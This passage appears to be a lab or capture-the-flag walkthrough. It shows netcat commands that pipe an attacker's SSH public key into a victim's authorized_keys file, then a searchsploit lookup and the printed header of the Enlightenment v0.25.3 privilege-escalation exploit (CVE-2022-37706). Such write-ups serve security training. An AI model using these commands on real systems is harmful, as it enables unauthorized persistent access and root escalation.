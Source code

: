 `ls -l ./`:
```
total 8
-rw------- 1 kali kali 3381 Oct  4 13:36 aelis_rsa
-rw-r--r-- 1 kali kali  738 Oct  4 13:36 aelis_rsa.pub ←
```

![Victim: aelis](https://img.shields.io/badge/Victim-aelis-64b5f6?logo=linux&logoColor=white)

`nc -lnvp 8888 > ./.ssh/authorized_keys`:
```
Listening on 0.0.0.0 8888 ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cat ./aelis_rsa.pub | nc 192.168.56.127 8888 -q 0`

![Victim: aelis](https://img.shields.io/badge/Victim-aelis-64b5f6?logo=linux&logoColor=white)

```
Connection received on 192.168.56.118 41684 ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`searchsploit enlightenment`:
```                   
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Enlightenment - Linux Null PTR Dereference Framework                                                                                                       | linux/local/9627.txt
Enlightenment v0.25.3 - Privilege escalation                                                                                                               | linux/local/51180.txt ←
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cat /usr/share/exploitdb/exploits/linux/local/51180.txt`:
```sh
## Exploit Title: Enlightenment v0.25.3 - Privilege escalation
## Author: nu11secur1ty
## Date: 12.26.2022
## Vendor: https://www.enlightenment.org/
## Software: https://www.enlightenment.org/download
## Reference: https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2022-37706
## CVE ID: CVE-2022-37706 ←
## Description:
The Enlightenment Version: 0.25.3 is vulnerable to local privilege escalation.
Enlightenment_sys in Enlightenment before 0.25.3 allows local users to
gain privileges because it is setuid root,
and the system library function mishandles pathnames that begin with a
/dev/.. substring
If the attacker has access locally to some machine on which the
machine is installed Enlightenment
he can use this vulnerability to do very dangerous stuff.

## STATUS: CRITICAL Vulnerability

[...]

[+] Exploit: ←
```